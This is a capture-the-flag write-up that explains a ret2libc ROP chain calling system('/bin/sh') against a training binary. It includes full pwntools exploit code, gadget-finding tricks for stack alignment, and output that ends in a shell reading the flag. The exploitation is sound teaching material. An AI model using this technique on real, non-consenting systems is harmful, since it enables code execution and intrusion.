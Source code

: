 # Mary Poppins strikes again

<p align="center">
<img src="./utils/roptastic_shell.png" alt="Challenge" width="500"/>
</p>

Connecting to the remote instance with `netcat` we are given some of the [source code](./utils/program.c) for the challenge. We are also given the goal of the challenge, and some options to interact with the program.

```
Your goal is to create a ROP chain that calls system("/bin/sh")
Use the menu options to lookup the address of system(),
and to add the "/bin/sh" string as an argument.

Google these terms for help:
- ret2libc

Good luck!

1. Fill buffer
2. Print stack frame
3. Verify ROP chain
4. Print challenge description
5. Print gadgets
6. Lookup symbol
7. Add string
8. [Quit]
>
```

The program for this challenge is similar to the earlier ones, but we have to spawn a shell instead of just setting popping values into registers. For this solve, we will utilize the options which prints the gadgets, writes a string to the binary, and looks up the address of a symbol in the binary (the last two weren't used in the previous challenges).


Our goal is similar to the `did someone say ret2win?` challenge, only that we want to call `system("/bin/sh")` instead of `win()`. To do this we need three things: the address of the `pop_rdi` gadget, the address of the string `/bin/sh` in the binary, and the address of `system`. The `pop_rdi` gadget we already know, and it is also printed to us when we choose option `5`. We don't know the address of the string `/bin/sh` in the binary, so we will add it ourselves using option `7`. The address of `system` we can look up using option `6`.
```python
from pwn import *

# Connect to remote instance
io = remote("pwn.tokle.dev", 1342)

# Receive all the output text from the program
io.recvuntil(b"Good luck!")

def get_gadgets():
    io.sendlineafter(b"> ", b"5")
    io.recvuntil(b"pop rdi; ret: ")
    pop_rdi = int(io.recvline().strip(), 16)
    io.recvuntil(b"pop rsi; ret: ")
    pop_rsi = int(io.recvline().strip(), 16)
    io.recvuntil(b"pop rdx; ret: ")
    pop_rdx = int(io.recvline().strip(), 16)
    return pop_rdi, pop_rsi, pop_rdx

def add_str(string):
    io.sendlineafter(b"> ", b"7")
    io.sendlineafter(b"String: ", string)
    io.recvuntil(b"String at: ")
    return int(io.recvline().strip(), 16)

def get_symbol_addr(symbol):
    io.sendlineafter(b"> ", b"6")
    io.sendlineafter(b"Symbol: ", symbol.encode())
    io.recvuntil(f"{symbol}: ".encode())
    return int(io.recvline().strip(), 16)

# Get address of gadgets
pop_rdi, pop_rsi, pop_rdx = get_gadgets()
log.success(f"Pop RDI @ {hex(pop_rdi)}")
log.success(f"Pop RSI @ {hex(pop_rsi)}")
log.success(f"Pop RDX @ {hex(pop_rdx)}")

# Add "/bin/sh" string
binsh = add_str(b"/bin/sh")
log.success(f"/bin/sh @ {hex(binsh)}")

# Get address of "system" function
system = get_symbol_addr("system")
log.success(f"system @ {hex(system)}")
```
{: .nolineno }

As we have everything we need we can assemble our payload to get a shell! We know that the offset to the saved return address is 136 bytes. Inside `rdi` we need to put the address of `/bin/sh`, not the string itself! This is because the argument to the `system` function is the address where the string is located, not the string itself. Lastly, after we have set the `rdi` register to the address of `/bin/sh`, we call the `system` function.

```python
# ROP to get shell
payload = b"A"*136
payload += p64(pop_rdi) # "pop rdi; ret;" gadget
payload += p64(binsh)   # Address where "/bin/sh" string is stored
payload += p64(system)  # Address of "system" function
```
{: .nolineno }

Sending and triggering the payload should then call `system("/bin/sh")` for us, and give us shell!
```python
# Send and trigger payload
io.sendlineafter(b"> ", b"1")
io.sendlineafter(b"Data: ", payload)
io.sendlineafter(b"> ", b"8")

io.interactive()
```
{: .nolineno }


But it doesn't work... This is because of something called [The MOVAPS Issue](https://ropemporium.com/guide.html#common-pitfalls). TLDR; We need to put the call to system on a stack address ending in 0, not 8. Because we cannot reduce our payload with 8 bytes (we cannot remove the padding, because then we don't overwrite the return address as we want), we have to add 8 more bytes before we call system. The "standard" way to do this is to use another gadget: `ret;`. Luckily, this gadget is *everywhere* in binaries, so even though we are not given the explicit address of it in this challenge, we can still find it easily.

The first way to find the gadget is to add 1 to the address of our `pop_rdi` gadget. Because the `pop_rdi` gadget ends with a `ret` instruction (pop rdi; ret;), and the `pop rdi` gadget is only a single byte, if we add 1 we get only the `ret` part of that gadget.

Another way to find a `ret` gadget is by knowing that the original saved return address is a gadget with the operations `mov eax, 0; leave; ret;`. The `mov` instruction is 3 bytes in size, and the `leave` instruction is 1 byte in size. Therefore we know that a `ret` instruction is located at the address of the saved return address + 4 bytes.
The following full exploit script will use the first option, but both work equally good.

The full, and commented, exploit script can be found in [solve.py](./solve.py).

```console
$ python3 solve.py
[+] Opening connection to pwn.tokle.dev on port 1342: Done
[+] Pop RDI @ 0x4038db
[+] Pop RSI @ 0x4038dd
[+] Pop RDX @ 0x4038df
[+] /bin/sh @ 0x475480
[+] system @ 0x788dd6f07d70
[*] Switching to interactive mode
$ cat flag.txt
flag{ropping_your_way_to_flags}
```